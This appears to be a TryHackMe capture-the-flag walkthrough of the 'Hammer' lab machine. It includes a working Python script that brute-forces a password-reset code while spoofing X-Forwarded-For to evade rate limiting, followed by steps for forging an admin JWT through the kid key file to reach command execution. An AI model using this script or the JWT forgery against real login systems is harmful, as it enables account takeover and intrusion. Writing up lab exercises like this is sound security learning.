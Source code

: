 ```yaml
---
title: "Hammer TryHackMe"
tags:
    - machine
    - THM
    - Auth Bypass
    - JWT
date: "2024-09-16"
thumbnail: "/assets/img/thumbnail/thumb.png"
bookmark: true
---
```

# Description
---
With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?
What is the flag value after logging in to the dashboard?.......
What is the content of the file /home/ubuntu/flag.txt?..........

# Enumeration
let's start with Nmap Scan:
```bash
$ nmap -sC -sV -Pn 10.10.49.135 -T4 -p 0-2000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-15 23:02 EEST
Nmap scan report for 10.10.49.135
Host is up (0.079s latency).
Not shown: 1999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 f51db1e6cc75df6abee39012e6b9126d (RSA)
|   256 1b7a2234ed1bff9ec3d13d5cf0b48bc8 (ECDSA)
|_  256 5a72ff3298127238088edc9652cef65c (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
Found two open ports
1) 22 -> ssh
2) 1337 -> http
`http://10.10.49.135:1337/`, we get a login form.
Testing the form with default credentials, we get the message: `Invalid Email or Password!`
<img src="/assets/img/hammer/1.png">
ok, let me look at the src code 
<img src="/assets/img/hammer/2.png">

nice,the developer forgot a note about directory naming -> `hmr_directory_name`
i love using `ffuf` for fuzzing :
```bash
$ ffuf -u http://10.10.49.135:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/small.txt  -mc 200,301 -ac

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 81ms]
    * FUZZ: css
[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 76ms]
    * FUZZ: images
[Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 108ms]
    * FUZZ: js
[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 83ms]
    * FUZZ: logs
```
found `hmr_logs` has `error.logs` file let's open it 
<img src="/assets/img/hammer/3.png">

we discover an email address: `tester@hammer.thm`
# Bypassing the Rate Limit
---
Now that we discovered a valid email address, we can try to reset the password for the user at `http://10.10.63.156:1337/reset_password.php`
<img src="/assets/img/hammer/4.png">
4-digit recovery code ....!,So i can brute-force it easily 
let's send normal request with code -> 0000
<img src="/assets/img/hammer/5.png">

Oops there is a `Rate-Limit-Pending:9` header on response
If we continue to make requests in quick succession, we will see it decreasing
And when it reaches `zero`, we see that now we are getting `rate-limited`.
<img src="/assets/img/hammer/6.png">

now my mission is bypassing this rate limit so i added `X-Forwarded-For` header with value `127.0.0.1` , this make me bypass the limit 
<img src="/assets/img/hammer/7.png">
but again if the counter reaches zero, we will be once again rate-limited
<img src="/assets/img/hammer/8.png">

but what if i changed the provided ip like this -> `X-Forwarded-For :127.0.0.2`
now able to reset the counter again 
<img src="/assets/img/hammer/9.png">

# Brute Forcing Script
---
scripting time for brute-forcing the 4 digit code & bypassing the rate limit 
chat-gpt helped me to write this script:
```python 
import requests
import random
import threading
# Target URL
url = "http://10.10.49.135:1337/reset_password.php"
# Event flag to stop threads when the correct code is found
stop_flag = threading.Event()
# Number of threads to use
num_threads = 50
# Generate a random 'X-Forwarded-For' header in the form '127.0.$.$'
def random_ip():
    return f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"
# Brute-force function executed by each thread
def brute_force_code(session, start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"  # Format code as 4 digits
        try:
            response = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},  # 's' parameter is fixed
                headers={"X-Forwarded-For": random_ip()},  # Use random IP
                allow_redirects=False  # Disable redirects
            )
            
            if stop_flag.is_set():
                return  # Stop if the flag is set by another thread
            # Check if we hit a rate limit (status code 302 in this case)
            if response.status_code == 302:
                stop_flag.set()  # Stop all threads
                print("[-] Timeout reached. Try again.")
                return
            # Check for a successful recovery code (modify based on server's response)
            if "Invalid or expired recovery code!" not in response.text:
                stop_flag.set()
                print(f"[+] Found the recovery code: {code_str}")
                print("[+] Printing the response: ")
                print(response.text)
                return

        except Exception as e:
            pass  # Ignore exceptions for now
# Main function to handle multithreading and start the brute-force process
def main():
    session = requests.Session()
    # Sending the password reset request
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})
    # Brute-forcing the recovery code
    print("[+] Starting the code brute-force.")
    code_range = 10000  # Range of 4-digit codes (0000-9999)
    step = code_range // num_threads
    threads = []
    # Create and start threads
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()
    # Wait for all threads to finish
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()

```
run the script 
<img src="/assets/img/hammer/10.png">
I got the code , now I can reset the password to: 123456789
<img src="/assets/img/hammer/11.png">

I have credentials `tester@hammer.thm:123456789` let's login at `http://10.10.49.135:1337/` ,I get redirected to `http://10.10.63.156:1337/dashboard.php` where we get our first flag.
<img src="/assets/img/hammer/12.png">

# Key File
---
in the dashboard there is input `Enter Command` let's see the request on burp with command `ls`
<img src="/assets/img/hammer/13.png">

it gaves me list of files one of them called `188ade1.key` 
<img src="/assets/img/hammer/14.png">

if i tried another command it gaves me `Command not allowed`
So,what this key for? and how can i use it ??? huuh there is a jwt i think i can use this key at `Verify the SIGNATURE`
so let's go back to the burp and change the signature of the jwt 
<img src="/assets/img/hammer/15.png">

`invalid Token`
# JWT
---
let's analysis the jwt on JWT.io , i found that :
`kid` take a file-> can put 188ade1.key file
`role` is `user` -> can change it to admin
first let's pass the file to `kid` and it's content to signature
<img src="/assets/img/hammer/16.png">
here we go 
<img src="/assets/img/hammer/17.png">

now change the role to admin and send the request with `id` command
<img src="/assets/img/hammer/18.png">

Nice, now i can read the content of the file `/home/ubuntu/flag.txt`
<img src="/assets/img/hammer/19.png">
 Honestly, this was an awesome machine, and I learned a lot from it. I hope you enjoy this walkthrough!
